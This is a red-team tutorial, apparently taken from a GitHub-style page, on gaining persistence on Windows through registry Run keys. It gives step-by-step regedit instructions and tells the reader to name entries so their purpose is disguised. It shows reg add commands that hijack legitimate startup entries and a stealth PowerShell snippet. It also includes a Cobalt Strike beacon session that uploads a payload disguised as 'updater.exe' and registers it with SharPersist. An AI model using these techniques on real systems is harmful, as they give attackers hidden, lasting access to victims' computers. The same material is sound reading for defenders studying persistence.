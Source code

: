 ```yaml
---
legal-banner: true
---
```


### **ESTABLISHING PERSISTENCE USING REGISTRY KEYS**

Using the Windows Registry for persistence involves creating or modifying registry keys that instruct Windows to automatically execute specific programs or scripts at certain events, like system startup or user logon.

### **STEP 1: SELECT THE APPROPRIATE REGISTRY KEY**

Depending on the persistence requirement (system-wide or user-specific), choose the appropriate registry location:

1.  For all users (requires administrative privileges) :  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
2.  For the current user only:  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
3.  Ensure the executable or script is reliable and placed in a secure, accessible location. It should not require additional prompts or permissions that might hinder its execution.
    

### **STEP 2: ADD A REGISTRY ENTRY**

1.  Open the Registry Editor: Press `Win + R`, type `regedit`, and press Enter. Ensure you have the necessary permissions to modify the registry.
    
2.  Navigate to the appropriate key
    
3.  For system-wide execution, navigate to  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
4.  For current user execution, navigate to  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
5.  Create a new string value
    
6.  Right-click in the right pane, select  
    `New` > `String Value`.
    
7.  Name the new string value descriptively to disguise its purpose (e.g., `SystemHelper`).
    
8.  Set the value of the new entry:
    
9.  Double-click the new string value and enter the path to your executable or script as the value data. For example:  
    `C:\Path\To\Your\Executable.exe`
    

### **STEP 3: TEST THE PERSISTENCE**

1.  Restart Your Computer or log out and then log back in (if using HKEY_CURRENT_USER) to test if the setup works.
2.  Verify Execution: After logging back in or restarting, check if your program or script runs automatically.
3.  Remove or Disable the Registry Entry When No Longer Needed:  
    `reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v SystemHelper /f`

### **TECHNIQUE 1: USING ALTERNATE REGISTRY PATHS**

Some applications use specific registry paths to configure auto-start settings. You can place your persistence mechanism in less commonly monitored registry paths.

1.  Identify Custom Registry Keys: Applications may use custom registry keys for auto-start. Identify these through documentation or by monitoring application installations.
2.  Example: Instead of the standard Run keys, you might use:  
    `HKEY_CURRENT_USER\Software\Classes\clsid\{GUID}\shell\open\command`
3.  Place your executable path here to trigger it when the application linked to the GUID is invoked.

### **TECHNIQUE 2: REGISTRY KEY HIJACKING**

Modify existing legitimate registry keys to include your persistence payload, which can be particularly stealthy.

1.  Find Vulnerable Keys: Use a registry scanner to find legitimate keys that auto-start programs, services, or drivers that frequently update or change.  
    `Find legitimate keys that auto-start programs, services, or drivers that frequently update or change.`
    
2.  Append or Modify the Executable Path:  
    `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "LegitimateService" /d "C:\Path\To\Your\Executable.exe && original_command.exe" /f`
    

### **TECHNIQUE 3: USING WINDOWS POWERSHELL REGISTRY MANIPULATION FOR STEALTH**

Manipulate registry keys using PowerShell to leave fewer traces and utilize more complex logic.

1.  Develop a Script: Use PowerShell's ability to script complex conditions, check for user activity, or system states before modifying the registry.
    
    ```POWERSHELL
    If ((Get-Process -Name explorer -ErrorAction SilentlyContinue) -ne $null) {
      Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "C:\Path\To\Script.ps1"
    }
    ```
    

### **COBALTSTRIKE**

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
Where:
```

-k is the registry key to modify.
-v is the name of the registry key to create.
